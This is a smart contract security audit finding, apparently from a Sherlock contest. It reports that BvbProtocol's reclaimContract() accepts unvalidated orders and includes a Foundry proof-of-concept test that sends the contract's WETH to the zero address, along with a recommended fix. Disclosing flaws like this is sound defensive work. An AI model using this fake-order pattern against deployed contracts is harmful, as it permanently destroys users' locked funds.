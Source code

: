 Ruhum

high

# Attacker can lockup all tokens held by BvbProtocol contract

## Summary
It's possible for an attacker to lockup all tokens held by the BvbProtocol contract by transferring it to the 0 address.

## Vulnerability Detail
The `reclaimContract()` function doesn't check whether the passed order is valid before sending the order's funds to the `bear` address. An attacker can create fake orders with arbitrary amounts and assets to send all the contract's tokens to the 0 address.

## Impact
All the tokens held by the BvbProtocol can be locked up indefinitely.

## Code Snippet
The [`reclaimContract()`](https://github.com/sherlock-audit/2022-11-bullvbear/blob/main/bvb-protocol/src/BvbProtocol.sol#L417-L443) function doesn't verify whether the passed order is valid or not. An invalid order returns the 0-address for the call to `bulls[contractId]`. Because of that, you're only able to send the funds to the 0-address and not to the attacker's own address.
```sol
    function reclaimContract(Order calldata order) public nonReentrant {
        bytes32 orderHash = hashOrder(order);

        // ContractId
        uint contractId = uint(orderHash);

        address bull = bulls[contractId];

        // Check that the contract is expired
        require(block.timestamp > order.expiry, "NOT_EXPIRED_CONTRACT");

        // Check that the contract is not settled
        require(!settledContracts[contractId], "SETTLED_CONTRACT");

        // Check that the contract is not reclaimed
        require(!reclaimedContracts[contractId], "RECLAIMED_CONTRACT");

        uint bullAssetAmount = order.premium + order.collateral;
        if (bullAssetAmount > 0) {
            // Transfer payment tokens to the Bull
            IERC20(order.asset).safeTransfer(bull, bullAssetAmount);
        }

        reclaimedContracts[contractId] = true;

        emit ReclaimedContract(orderHash, order);
    }
```

Here's a test showcasing the issue:

```sol
// test/unit/ReclaimContract.t.sol
    function testCanDestroyFunds() public {
        vm.deal(address(bvb), 10e18);
        vm.prank(address(bvb));
        weth.deposit{value: 10e18}();
        assertEq(weth.balanceOf(address(bvb)), 10e18);
        BvbProtocol.Order memory order = BvbProtocol.Order({
            premium: 5e18,
            collateral: 5e18,
            validity: 0,
            expiry: 0,
            nonce: 0,
            fee: 0,
            maker: address(0),
            asset: address(weth),
            collection: address(0),
            isBull: false
        });
        bvb.reclaimContract(order);

        assertEq(weth.balanceOf(address(bvb)), 0);
    }
```

## Tool used

Manual Review

## Recommendation
By checking whether `bulls[contractId]` returns anything besides the 0-address you can be sure that the order is valid.